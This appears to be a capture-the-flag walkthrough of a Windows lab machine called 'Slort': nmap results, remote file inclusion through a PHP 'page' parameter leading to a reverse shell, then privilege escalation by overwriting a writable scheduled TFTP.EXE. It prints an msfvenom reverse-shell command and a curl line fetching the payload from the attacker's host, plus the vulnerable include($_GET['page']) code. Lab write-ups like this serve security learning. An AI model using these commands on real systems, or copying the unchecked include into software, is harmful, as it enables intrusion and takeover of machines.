








# Slort

OS: Windows

# NMAP

The results of the default scripts and sevice scan:

```sh
PORT      STATE SERVICE       REASON  VERSION
21/tcp    open  ftp           syn-ack FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
3306/tcp  open  mysql?        syn-ack
| mysql-info: 
|_  MySQL Error: Host '192.168.45.166' is not allowed to connect to this MariaDB server
| fingerprint-strings: 
|   NULL, giop: 
|_    Host '192.168.45.166' is not allowed to connect to this MariaDB server
4443/tcp  open  http          syn-ack Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 6EB4A43CB64C97F76562AF703893C8FD
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.228.53:4443/dashboard/
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
5040/tcp  open  unknown       syn-ack
7680/tcp  open  pando-pub?    syn-ack
8080/tcp  open  http          syn-ack Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-favicon: Unknown favicon MD5: 6EB4A43CB64C97F76562AF703893C8FD
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Welcome to XAMPP
|_Requested resource was http://192.168.228.53:8080/dashboard/
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.93%I=7%D=8/15%Time=64DB8176%P=x86_64-pc-linux-gnu%r(NU
......

```

# Port 8080
The nmap scan revealed a webserver trunning on port 8080. Webapplications can contain llot's of vulbnerabilities which might lead us to initial access to the machine.



In the url we see a page parameter. This might be an indication that lfi (local file inclusion) or even RFI (remote file inclusion) is possible).
If we put just a bogus filename like ‘test.php’ ad the value of the parameter we can see an error message:


The function called by the application is 'include()'

> The include expression includes and evaluates  the specified file. 

There is a big security warning in the documentation of this function [PHP Include](https://www.php.net/manual/en/function.include.php)



We will check if we can make a remote file get executed on the server. We create a file called test.php with the following contents and serve it on our attacker machine: 

```php
<?php

echo("This is a test")

?>
```

If we put our url of out test.php file as the value of the page parameter we can see that the php code get's executed



Yeaah, now take advantage of this file inclusion vulnerabitly to get a shell on the machine.
As a shell i used the PHP shell from Ivan Sinek on https://revshells.com, the shell selected is cmd.exe andthe port 443. The shell is served as shell.php

Boom! we have a shell as rupert!



# Privilge Escalation
When perfomring enumeration for privilege escalation it's always good practice to look for non-default files and folders is C:\ and Program Files.
In the C:\ directory we find  C:\Backup. There is a info.txt file. This is info for the user but might contain useful info for us.

```cmd
c:\Backup>type info.txt
Run every 5 minutes:
C:\Backup\TFTP.EXE -i 192.168.234.57 get backup.txt
```

Hmm... We see that the file C:\Backup\TFTP.EXE  gets executed every 5 minutes. We will check our persmissions on the file with icacls:

> Displays or modifies discretionary access control lists (DACLs) on specified files, and applies stored DACLs to files in specified directories.



We can see that BUILTIN\Users have Full Access (f) on the file. This means we could to anything with the file including replacing it with a malicous file.
First we will back up the original file:

```cmd
move C:\Backup\TFTP.EXE C:\Backup\TFTP.EXE.bak
```

The payload we generate is:

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.226 LPORT=4444 -f exe -o rev4444.exe
```

The file can be transferred with curl:

```cmd
curl.exe 192.168.45.226/rev4444.exe -o c:/Backup/TFTP.exe
```

Now start a listener and wait...



Here we have a shell as administrator!!!!

# Short Analysis


We can see the vulnerabilty if we read the contents of C:\xampp\htdocs\site\index.php

```php
C:\xampp\htdocs\site>more index.php
<?php
        $page = null;
        if (isset($_GET["page"])) {
                include($_GET["page"]);
        }
        else {
                echo "ERROR: No page specified...";
                header("Location: index.php?page=main.php", true, 301);
                exit();
        }
?>
```

We see that if the page parameter is set it will try to include that page. But if we do not put a page parameter in th url we should get an error that no page is specified and we get redirected (code 301). We can verify this wirth burp suite:




